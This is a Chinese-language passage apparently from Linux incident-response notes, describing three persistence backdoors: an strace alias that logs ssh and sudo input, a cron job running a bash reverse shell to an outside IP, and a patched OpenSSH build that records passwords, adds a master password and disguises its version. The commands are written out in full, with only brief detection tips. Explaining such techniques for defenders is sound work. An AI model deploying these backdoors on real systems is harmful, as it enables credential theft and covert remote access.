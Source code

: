 **6、strace后门**

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```bash
vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
source /root/.bashrc
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5-1.png)

排查技巧：使用`alias`即可发现异常。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5-2.png)

**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。

a、创建shell脚本，例如在/etc/evil.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
chmod +sx /etc/evil.sh
```

b、crontab -e 设置定时任务

```bash
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后就可以用nc接收shell。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-6.png)

排查技巧：

```bash
# 查看可疑的定时任务列表
crontab -e
```

**8、openssh后门**

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

```bash
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
    #define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
    #define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
    #define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
    #define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
    #define SSH_PORTABLE "小版本号"
```